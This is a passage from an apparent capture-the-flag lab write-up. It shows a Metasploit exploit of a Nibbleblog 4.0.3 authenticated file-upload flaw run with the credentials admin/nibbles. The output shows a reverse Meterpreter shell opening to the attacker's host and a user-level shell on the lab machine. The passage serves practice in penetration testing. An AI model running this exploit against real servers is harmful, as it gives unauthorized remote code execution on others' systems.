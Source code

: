 ### Metasploit –> Meterpreter

We’ll use `multi/http/nibbleblog_file_upload` to get a shell on the box.

```

msf exploit(multi/http/nibbleblog_file_upload) > info
       Name: Nibbleblog File Upload Vulnerability
     Module: exploit/multi/http/nibbleblog_file_upload
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-09-01

Provided by:
  Unknown
  Roberto Soares Espreto <robertoespreto@gmail.com>

Available targets:
  Id  Name
  --  ----
  0   Nibbleblog 4.0.3

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD   nibbles          yes       The password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST      10.10.10.75      yes       The target address
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /nibbleblog/     yes       The base path to the web application
  USERNAME   admin            yes       The username to authenticate with
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  Nibbleblog contains a flaw that allows an authenticated remote
  attacker to execute arbitrary PHP code. This module was tested on
  version 4.0.3.

References:
  http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html

msf exploit(multi/http/nibbleblog_file_upload) > run
[*] Started reverse TCP handler on 10.10.14.157:4444
[*] Sending stage (37543 bytes) to 10.10.10.75
[*] Meterpreter session 2 opened (10.10.14.157:4444 -> 10.10.10.75:56052) at 2018-03-08 20:51:40 -0500
[+] Deleted image.php
meterpreter > shell
Process 3816 created.
Channel 0 created.
id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

```

